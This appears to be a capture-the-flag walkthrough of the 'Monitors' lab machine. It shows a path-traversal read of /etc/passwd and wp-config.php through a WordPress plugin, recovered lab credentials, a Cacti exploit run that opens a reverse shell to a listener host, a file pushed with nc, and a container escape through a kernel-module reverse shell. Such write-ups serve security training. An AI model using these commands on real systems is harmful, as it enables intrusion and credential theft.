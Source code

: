  ![image](https://user-images.githubusercontent.com/68326057/117559351-2b257e00-b0a2-11eb-8cec-7e2770921cf5.png)


# NMAP

```bash
PORT   STATE SERVICE REASON  VERSION

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5AeQDHYQGVg8GiNvPYiXYPseampZJusZb2Dbd2d1QIi7a/LGOO9ylbMgjxcve5euzCFBMSX2rVIp8zkUg3CCi7JYLpyQAeP0npjT/fB84dWbzt51Xmfir4qZTpBMf8Lw+ZFxEXv1UkGfejSZ3fjcuZ2hBBeUh63P2qcomVla/eUyR1dOIvJy8K1pl1WSXia6W2fJsBj/uowwe4+aMtWGVlzMNd+Tpp1Z8lg/a2jZTxkdIYvUkx/k0x0xrjsUhGiLgOoAWg4JvKeYoy+v/hhAjh6fB8Kw7jS1t1Si69cPadEQGB8NOMdyDv4EvoG3/8BvLpMgpHKzy1aHsJk9zqyej
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHKAgNKkq5XDcAfsuuxZFMPf+iEHjoq9DUmOmg0cCDgpE90GNOZeoaI24IlwlrSdTWTRA9HNJ7DFyIkcHr37Dk=
|   256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBi/L9gWCzbJ6GzFB1PsHZJco24eJW3wmC+a4Ul6fEe6

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# WEB

![image](https://user-images.githubusercontent.com/68326057/117559412-ab4be380-b0a2-11eb-9019-c8633ef32ef0.png)

```bash
website administrator: admin@monitors.htb
```
## CMS - Wordpress

--> By admin | 15 October 2020 

![image](https://user-images.githubusercontent.com/68326057/117559478-58bef700-b0a3-11eb-980e-bc070df9efb9.png)

```bash
admin:
```

![image](https://user-images.githubusercontent.com/68326057/117559485-65434f80-b0a3-11eb-9347-def9130f7113.png)

```bash
plugin:wp-with-spritz
```

![image](https://user-images.githubusercontent.com/68326057/117559533-cc610400-b0a3-11eb-8830-0c0b197ac781.png)



# LFI

--> view-source:http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd

![image](https://user-images.githubusercontent.com/68326057/117559559-fb777580-b0a3-11eb-809b-0c4b5c640c6c.png)

![image](https://user-images.githubusercontent.com/68326057/117559568-092cfb00-b0a4-11eb-85dd-8bc601e09dd6.png)


--> view-source:http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php

![image](https://user-images.githubusercontent.com/68326057/117559602-57da9500-b0a4-11eb-8a3e-673e6e728a1d.png)


```bash
wpadmin:BestAdministrator@2020!
```

![image](https://user-images.githubusercontent.com/68326057/117559862-88bbc980-b0a6-11eb-8ea6-266ac03a837c.png)


![image](https://user-images.githubusercontent.com/68326057/117559873-9ec98a00-b0a6-11eb-9975-63ca7507775e.png)


![image](https://user-images.githubusercontent.com/68326057/117559901-cddffb80-b0a6-11eb-8933-0e73c3029aa8.png)


```bash
admin(That we found at the start):BestAdministrator@2020!
```

![image](https://user-images.githubusercontent.com/68326057/117560003-96be1a00-b0a7-11eb-96e6-38fff4c5e54b.png)

![image](https://user-images.githubusercontent.com/68326057/117560646-43e76100-b0ad-11eb-9be6-dc2e12fca102.png)

![image](https://user-images.githubusercontent.com/68326057/117560658-65484d00-b0ad-11eb-8693-55920c6582d9.png)

```bash
 python3 exploit.py -t 'http://cacti-admin.monitors.htb' -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.21 --lport 9001
 ```
 
![image](https://user-images.githubusercontent.com/68326057/117560704-ae989c80-b0ad-11eb-9424-d6b5907dde9e.png)

# USER -www data


![image](https://user-images.githubusercontent.com/68326057/117560715-cb34d480-b0ad-11eb-8d74-67191db67ff3.png)

![image](https://user-images.githubusercontent.com/68326057/117560727-df78d180-b0ad-11eb-8e3c-a53bad80e72b.png)


```sql
mysql -D wordpress -u wpadmin -e 'select * from wp_users;' -p
<ordpress -u wpadmin -e 'select * from wp_users;' -p
BestAdministrator@2020!

+----+------------+------------------------------------+---------------+-------------------+---------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url            | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+---------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Be7cx.OsLozVI5L6DD60LLZNoHW9dZ0 | admin         | admin@monitor.htb | http://192.168.1.40 | 2020-10-15 13:45:42 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------+---------------------+---------------------+---------------------+-------------+--------------+

```

# KERNEL CVE

![image](https://user-images.githubusercontent.com/68326057/117560913-b6f1d700-b0af-11eb-8462-350742a5f708.png)

On victim machine:-
![image](https://user-images.githubusercontent.com/68326057/117560920-c7a24d00-b0af-11eb-8792-efdd9b5f68d6.png)

From my machine:-
```
nc -w 5 monitors.htb 4444 < exploit
```

DIDn't work

![image](https://user-images.githubusercontent.com/68326057/117561060-08e72c80-b0b1-11eb-8024-2d4b7bc6e476.png)


![image](https://user-images.githubusercontent.com/68326057/117561057-fa007a00-b0b0-11eb-9e23-49ff83cffdc7.png)

![image](https://user-images.githubusercontent.com/68326057/117561070-1ef4ed00-b0b1-11eb-8de5-3a832ccc5dfd.png)


![image](https://user-images.githubusercontent.com/68326057/117561083-37650780-b0b1-11eb-9dcf-2149b8636b03.png)


```bash
cacti_backup:VerticalEdge2020
```

![image](https://user-images.githubusercontent.com/68326057/117561092-4c419b00-b0b1-11eb-992f-d464a89f2306.png)


# USER - marcus

ssh in:-

![image](https://user-images.githubusercontent.com/68326057/117561112-772bef00-b0b1-11eb-96a4-8e8b92c68bf4.png)

![image](https://user-images.githubusercontent.com/68326057/117561135-a9d5e780-b0b1-11eb-9627-89d497bb6895.png)

![image](https://user-images.githubusercontent.com/68326057/117561143-bf4b1180-b0b1-11eb-9971-4653bbf6ace4.png)

![image](https://user-images.githubusercontent.com/68326057/117561146-ceca5a80-b0b1-11eb-80fe-99027e87a31f.png)

# ssh port forwarding

![image](https://user-images.githubusercontent.com/68326057/117561163-f7525480-b0b1-11eb-95e5-3740adc1b886.png)

![image](https://user-images.githubusercontent.com/68326057/117561230-895a5d00-b0b2-11eb-840d-a5f40bd4b0a2.png)

![image](https://user-images.githubusercontent.com/68326057/117561268-d5a59d00-b0b2-11eb-9577-052cca8fbc9b.png)

# In container

![image](https://user-images.githubusercontent.com/68326057/117561743-2ae3ad80-b0b7-11eb-9694-92dd880e943b.png)

--> https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd

![image](https://user-images.githubusercontent.com/68326057/117561873-1f44b680-b0b8-11eb-8e94-2a5b9fed8992.png)

--> capsh --print --> To check capabilities

--> c reverseshell

![image](https://user-images.githubusercontent.com/68326057/117561954-d17c7e00-b0b8-11eb-94f7-969d294f1b5a.png)

--> makefile

```bash
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
--> wget both file and type make

![image](https://user-images.githubusercontent.com/68326057/117562014-5ebfd280-b0b9-11eb-8270-825a70fcec6f.png)

![image](https://user-images.githubusercontent.com/68326057/117562018-63848680-b0b9-11eb-9b6a-c0389da7f8aa.png)


# ROOT

![image](https://user-images.githubusercontent.com/68326057/117562023-7008df00-b0b9-11eb-98cf-1bbd8c87d3cb.png)


